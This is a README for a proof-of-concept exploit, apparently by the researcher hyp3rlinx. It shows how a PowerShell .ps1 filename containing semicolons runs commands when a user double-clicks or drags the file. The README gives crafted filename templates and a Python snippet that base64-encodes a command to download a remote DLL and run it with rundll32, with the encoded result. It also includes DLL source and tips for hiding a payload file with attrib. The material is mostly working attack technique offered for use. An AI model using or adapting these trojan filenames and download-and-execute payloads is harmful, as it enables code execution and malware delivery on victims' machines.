 # PSTrojanFile
Windows PowerShell Filename Code Execution POC

Dusted this off and improved it a bit, reported to Microsoft in 2019 remains unfixed as of the time of this writing. Remote code execution via a specially crafted filename. 
The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just call shorthand commands.

Test;POweRsHeLL -e [BASE64 PAYLOAD];.ps1
OR just call commands straight away!
Testing;saps (gc -) PoC.ps1

1) Execute a remote DLL using rundll32
2) Execute an unintended PS script (for a short non base64 encoded filename)
3) Execute a hidden text-file: Testing;saps (gc -) PoC.ps1  (Optional: attrib +s +h text-file)

Vectors: double click, drag and drop to PS shortcut
Requirements: user must have the following setting to call a secondary script
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

Create a trojan PS1 file that will try to download and execute a remote DLL namec "1.d"

Python:
from base64 import b64encode
b64encode("saps  http://127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code:
#include <windows.h>
//gcc -shared -o mydll.dll mydll.c -m32
//hyp3rlinx 
void evilo(void){
MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1);
}
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){
evilo();
return 0;
}

Video PoC:

